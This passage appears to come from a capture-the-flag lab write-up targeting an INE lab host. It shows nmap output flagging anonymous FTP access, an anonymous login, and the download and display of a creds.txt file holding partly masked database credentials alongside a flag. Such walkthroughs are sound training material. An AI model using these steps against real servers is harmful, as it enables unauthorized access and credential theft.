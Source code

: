 ```bash
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              22 Oct 28  2024 creds.txt
|_-rw-r--r--    1 0        0              39 May 20 09:24 flag.txt
```

what is being there let’s download those files to our system with a command `get`

```bash
┌──(root㉿INE)-[~]
└─# ftp target.ine.local                                                                                                                                                                   
Connected to target.ine.local.
220 (vsFTPd 3.0.5)
Name (target.ine.local:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||47206|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              22 Oct 28  2024 creds.txt
-rw-r--r--    1 0        0              39 May 20 09:24 flag.txt
226 Directory send OK.
ftp> get creds.txt
local: creds.txt remote: creds.txt
229 Entering Extended Passive Mode (|||22346|)
150 Opening BINARY mode data connection for creds.txt (22 bytes).
100% |**********************************************************************************************************************************************|    22      143.22 KiB/s    00:00 ETA
226 Transfer complete.
22 bytes received in 00:00 (48.60 KiB/s)
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||21695|)
150 Opening BINARY mode data connection for flag.txt (39 bytes).
100% |**********************************************************************************************************************************************|    39      718.60 KiB/s    00:00 ETA
226 Transfer complete.
39 bytes received in 00:00 (135.05 KiB/s)
ftp> 
```

let’s see what was in those files and we got a creds for a database and flag3!!!

```bash
┌──(root㉿INE)-[~]
└─# cat creds.txt flag.txt 
db_admin:password****
FLAG3_4005df6e7c89451e9d1f062******
```

---
